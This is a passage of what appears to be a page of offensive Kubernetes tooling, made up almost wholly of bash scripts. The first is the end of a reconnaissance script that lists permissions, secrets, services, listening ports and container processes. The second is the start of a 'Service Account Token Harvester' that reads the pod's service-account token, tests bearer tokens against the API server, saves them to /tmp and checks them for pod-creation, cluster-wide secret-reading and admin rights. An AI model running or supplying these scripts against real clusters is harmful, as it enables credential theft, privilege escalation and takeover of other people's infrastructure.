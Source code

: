 ```bash
        echo "[+] Testing permissions..."
        kubectl auth can-i --list 2>/dev/null | head -20
        
        # Enumerate resources
        echo "[+] Enumerating accessible resources..."
        kubectl get pods 2>/dev/null | head -10
        kubectl get secrets 2>/dev/null | head -10
        kubectl get services 2>/dev/null | head -10
    else
        echo "[-] API Server not accessible"
    fi
else
    echo "[-] Not running inside Kubernetes cluster"
fi

# Network discovery
echo "[+] Network reconnaissance..."
ip addr show
netstat -tuln 2>/dev/null | grep LISTEN

# Process enumeration
echo "[+] Process enumeration..."
ps aux | grep -E "kube|docker|containerd" | head -10

echo "=== Reconnaissance complete ==="
```

**2. Service Account Token Harvester**

```bash
#!/bin/bash
# sa-harvester.sh - Service Account Token Collection

echo "=== Service Account Token Harvester ==="

# Function to extract and test tokens
test_token() {
    local token=$1
    local name=$2
    
    echo "[+] Testing token from $name"
    
    # Test basic API access
    if curl -s -k --header "Authorization: Bearer $token" \
        https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_SERVICE_PORT/api >/dev/null; then
        
        echo "  [+] Token valid - testing permissions"
        
        # Save token to file
        echo $token > /tmp/token_$name.txt
        
        # Test high-value permissions
        kubectl --token=$token auth can-i create pods 2>/dev/null && echo "  [!] Can create pods"
        kubectl --token=$token auth can-i get secrets --all-namespaces 2>/dev/null && echo "  [!] Can read all secrets"
        kubectl --token=$token auth can-i "*" "*" 2>/dev/null && echo "  [!] Has admin privileges!"
        
    else
        echo "  [-] Token invalid or API unreachable"
    fi
}

# Harvest tokens from environment
if [ -f "/var/run/secrets/kubernetes.io/serviceaccount/token" ]; then
```